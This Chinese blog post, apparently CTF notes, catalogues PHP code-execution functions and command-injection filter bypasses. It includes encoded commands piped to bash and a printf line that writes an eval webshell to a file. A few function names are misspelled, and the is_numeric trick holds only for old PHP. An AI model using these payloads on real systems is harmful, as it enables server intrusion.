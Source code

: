 ```yaml
---
layout: post
title: 命令执行
categories: [web,rce]
---
```


# 远程代码执行

## 常见的函数

> 1.eval($_POST['cmd']);  参数当php代码执行  ,需以分号结尾

> 2.assert(代码) 不需以分号结尾

> 3.preg_replace(‘正则规则’,'替换成的字符'，‘被替换的字符’)  规则里面的`/e`是将替换完的字符转变为eval()方式

> 4.array_map(callable,array1[,array2···]) callable是回调函数,执行array的值

```php
<?php
  $func=$_GET['fun'];
  $cmd=$_POST['cmd'];
  $array[0]=$cmd;
  $new_array=array_map($func,$array);
  echo $new_array;
?>
例：
  url?func=assert;
  post:cmd=phpinfo();
```

> 5.creat_function(‘’,$_POST['cmd']) 从传递的参数中创建一个匿名函数，并为其返回唯一的名称
> 
> `'xxxx'`包裹的不会被解析，而`"xxxx"` 包裹的会被转义

> 6.call_user_func(callback,parameter1[,...])

> ```
> 例：call_user_func("assert",$_POST['cmd']);
> ```

> 7.array_filter(array,callback) 如：array_filter(`$`array,`$`func)

## 双引号

> 在php中双引号的变量会被解析，单引号不会，因此可以用`{${phpinfo()}}`包裹

<br/>

# 远程系统命令执行

## 常见函数

> system():显示输出

> print和var_dump作用类似

> exec(cmd,output)：仅执行,只返回结果的最后一行，可以使用第二个参数输出到指定数组
> 
> shell_exec()：通过shell环境执行和输出
> 
> passthru()：在unix系统命令并显示原始输出
> 
> penti_exec()
> 
> popen()：打开进程文件指针,与`exec()`类似
> 
> proc_popen()：执行一个命令并且打开用来输入/输出的文件指针
> 
> 反引号命令执行
>basename():此函数返回路径中的文件名的一部分(后面),此函数还有一个特点，就是会去掉文件名的非ASCII码值
>x=index.php/config.php/%ff

## 常用特殊字符  

>`1|2`：直接执行2

>`1||2`：仅1为假2执行
 
>`1&2`：1可真可假

>`1&&2`：1只能为真2才执行

>`1;2`：2都被执行,`;`是在shell环境下的连续命令  

>`%0a`代替运算符`|`

## 常见的绕过方法

### 1.空格绕过

常见的绕过符号有：
`$IFS$9` 、`${IFS}` 、`%09`(php环境下)、 重定向符`<>`、`<、`

### 2.拼接绕过

```php
#执行ls命令：
a=l;b=s;$a$b
#cat flag文件内容：
a=c;b=at;c=f;d=lag;$a$b ${c}${d}
#cat test文件内容
a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$b test
```

### 3.编码绕过

```php
#base64
echo "Y2F0IC9mbGFn"|base64 -d|bash ==>cat /flag
echo Y2F0IC9mbGFn|base64 -d|sh==>cat /flag
#hex
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
#oct/字节
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
#i也可以通过这种方式写马
内容为<?php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```

### 4.单引号和双引号绕过

```
c'a't test
c"a"t test
反引号可以在linux环境下解析为调用系统命令
```

### 5.反斜杠绕过

```
ca\t test
```

### 6..通过$PATH绕过

```
#echo $PATH 显示当前PATH环境变量，该变量的值由一系列以冒号分隔的目录名组成
#当执行程序时，shell自动跟据PATH变量的值去搜索该程序
#shell在搜索时先搜索PATH环境变量中的第一个目录，没找到再接着搜索，如果找到则执行它，不会再继续搜索
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
`echo $PATH| cut -c 8,9`t test
```

### 7.linux中查看文件内容的命令

```
cat、tac、more、less、head、tail、nl、sed、sort、uniq
```

### 8.通配符绕过

```
cat t?st
cat te*
cat t[a-z]st
cat t{a,b,c,d,e,f}st
```

### 9.如果过滤了&_等字符

```php
取反
<?php
  $a = "phpinfo";
  echo urlencode(~$a);
?>
#%8F%97%8F%96%91%99%90
(~%8F%97%8F%96%91%99%90)();
```

### 10.内联执行

```

```
### 过滤了目录分隔符处理方法有三种
```
    ${PATH:0:1}  
    ${HOME:0:1}  
    cd 切换目录  
```

### tee命令
Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。  
```
?url=l\s / | tee 1.txt   
之后访问我们传入的文件1.txt，发现命令被执行  
再传入 ?url=tac /flllll\aaaaaaggggggg | tee 2.txt   #然后访问2.txt  
```

### is_numeric()绕过 
>is_numeric( mixed $var) : bool  
>如果var是数字或者数字字符串那么就返回TRUE，否则就返回FALSE。那么这里说的绕过是什么姿势呢？是十六进制。
```php
<?php
    $a = is_numeric('0x31206f722031');
  if($a){
        echo 'It meets my requirement';
    }
  else{
        echo 'Try again';
    }
?>
执行结果——>
It meets my requirement
```
>0x31206f722031是or 1=1的十六进制

### 其他
#### system('ls') : 列举当前目录下的所有文件
#### system("find / -name flag*")：查找所有文件名匹配flag的文件